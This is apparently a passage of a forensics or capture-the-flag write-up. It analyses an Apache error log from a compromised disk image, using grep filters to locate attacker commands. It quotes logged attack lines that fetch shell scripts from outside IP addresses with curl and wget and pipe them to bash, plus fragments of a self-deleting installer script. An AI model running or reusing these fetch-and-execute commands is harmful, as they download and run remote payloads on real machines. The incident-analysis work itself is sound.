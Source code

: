 We need more accuracy in the filter. Some of the matches are on error on `curl` or `wget` so we could improve the regex in order to catch only the commands and not the error (adding ' \\-' at the end catch the command line and exclude error messages):

```
# grep -E 'Nov.*2021.*(wget|curl) \-' var/log/apache2/error_log
[Mon Nov 01 10:15:10.895210 2021] [dumpio:trace7] [pid 4449:tid 139978898114304] mod_dumpio.c(103): [client 195.19.192.26:38080] mod_dumpio:  dumpio_in (data-HEAP): A=|echo;(curl -s 195.19.192.28/ap.sh||wget -q -O- 195.19.192.28/ap.sh)|bash
...
```

Even better, we could see that the attacker dowloaded strings encoded in base64. Let's retrieve all the b64 encoded strings and decode:

```
...grep flags ... --data-urlencode 's=UE...Cg==' -o .install; chmod +x .install; sh .install > /dev/null 2>&1 & 
		echo 'Done'
	else
		echo 'Already install. Started'; cd .log/101068/.spoollog && sh .cron.sh > /dev/null 2>&1 & 
	fi
else 
	echo 'Already install Running'
fi
```

Two interesting things:

- a file named `.install`
- an another string encoded in base64 let's decode it

```
...
rm -rf .install
```

The file `.install` remove itself, this is the flag !

## Q9 The attacker downloaded sh scripts. What are the names of these files?

*file: sdb.vhd*

0_cron.sh, 0_linux.sh, ap.sh

At the previous step, you might found theses files. But we can found theses files applying this filter:

```
# grep -Eo '(curl|wget).*.{5}\.sh' var/log/apache2/error_log|uniq
curl -s 195.19.192.28/ap.sh||wget -q -O- 195.19.192.28/ap.sh
curl -o-  http://86.105.195.120/cleanfda/init.sh
curl -s 195.19.192.28/ap.sh||wget -q -O- 195.19.192.28/ap.sh
...
```
